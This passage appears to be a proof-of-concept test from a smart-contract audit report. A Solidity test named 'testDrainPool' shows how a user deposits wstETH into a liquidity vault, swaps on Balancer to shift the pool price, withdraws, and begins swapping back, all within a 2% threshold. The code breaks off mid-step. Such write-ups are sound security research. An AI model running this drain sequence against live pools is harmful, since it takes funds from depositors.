 ## PoC
The scenario above is tested in the following. `THRESHOLD` has been set to 2%.
The values are all divided by 100 to stick with the 1 wstETH deposit already in the `setUp()`. Also exact values will change slighthly depending on chainlink prices at test execution.
`LIMIT` is increased from 1000e9 to 10000e9.
`FixedPointMathLib` is used instead of `FullMath` for convenience in arithmetic operations.
Necessary interfaces for swaps have been added to `IBalancer.sol`

```solidity
function testDrainPool() public {

        bytes memory userData;
        uint256 wstEthAmount = 9 * 1e18;
        uint256 wstEthAmountSwap = 9 * liquidityVault.THRESHOLD() * 1e18 / 2;
        uint256 oraclePrice = liquidityVault._valueCollateral(1e18);

        FundManagement memory funds = FundManagement(
            {
                sender: alice,
                fromInternalBalance: false,
                recipient: payable(alice),
                toInternalBalance: false
            }
        );
        SingleSwap memory singleSwap = SingleSwap(
            {
                poolId: liquidityPool.getPoolId(),
                kind: SwapKind(0),
                assetIn: address(wsteth),
                assetOut: address(ohm),
                amount: wstEthAmountSwap,
                userData: userData
            }
        );

        uint256 initialAlicewstEthBalance = wsteth.balanceOf(alice);
        uint256 initialAliceOhmBalance = ohm.balanceOf(alice);

        vm.startPrank(alice);

        // 2. Deposit
        liquidityVault.deposit(wstEthAmount, 0);
        uint256 aliceLpPosition = liquidityVault.lpPositions(alice);
        console2.log("2. wsETH deposited into SSLV:" , wstEthAmount);

        // 3. Swap wstETH for OHM on balancer
        wsteth.approve(address(vault), wstEthAmount);
        uint256 ohmOut = vault.swap(singleSwap,
                                    funds,
                                    0,
                                    block.timestamp + 1);
        console2.log("3.Initial Pool price: ", oraclePrice);
        console2.log("3.SWAP - wstETH in :", wstEthAmount);
        console2.log("3.SWAP - OHM out :", ohmOut);

        // 4. withdraw
        uint256 wstETHfromWithdraw = liquidityVault.withdraw(aliceLpPosition, minTokenAmounts_, true);
        console2.log("4. wstETH obtained from Withdrawal:", wstETHfromWithdraw);
        
        // 5. Swap OHM for wstETH on balancer
        singleSwap.assetIn = address(ohm);
        singleSwap.assetOut = address(wsteth);
```
